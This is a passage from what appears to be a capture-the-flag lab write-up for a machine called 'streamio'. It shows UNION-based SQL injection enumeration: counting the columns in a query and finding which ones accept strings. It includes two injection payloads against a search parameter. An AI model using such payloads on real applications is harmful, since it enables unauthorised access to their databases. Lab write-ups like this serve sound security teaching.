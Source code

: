 <figure><img src="../../.gitbook/assets/streamio_enum_num_cols.png" alt=""><figcaption><p>Figure 13: Enumerating the number of columns returned by the query.</p></figcaption></figure>

The next step in the process is to figure out which column accepts strings. We can test that by passing a string on each column and see which returns it back (Figure 14).

```sql
q=anger1' UNION SELECT 'a',2,3,4,5,6;-- -
q=anger1' UNION SELECT 1,'a',3,4,5,6;-- -
```

<figure><img src="../../.gitbook/assets/streamio_enum_string_field.png" alt=""><figcaption><p>Figure 14: Enumerating character fields.</p></figcaption></figure>
